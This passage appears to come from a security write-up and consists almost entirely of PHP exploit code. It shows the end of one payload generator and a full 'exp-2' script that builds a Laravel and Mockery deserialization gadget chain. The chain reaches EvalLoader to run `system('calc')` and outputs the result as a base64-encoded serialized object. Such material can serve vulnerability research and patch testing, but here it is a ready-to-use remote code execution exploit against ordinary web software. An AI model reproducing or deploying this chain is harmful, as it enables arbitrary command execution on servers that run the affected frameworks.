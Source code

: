 ```php
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

### exp-2
```php
<?php
namespace Symfony\Component\HttpFoundation {
    class Cookie {
        protected $name = "H3rmesk1t";
    }
}

namespace Mockery\Generator {
    use Symfony\Component\HttpFoundation\Cookie;
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct($code) {
            $this->config = new cookie();
            $this->code = $code;
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition("<?php system('calc');?>");
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
$this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
```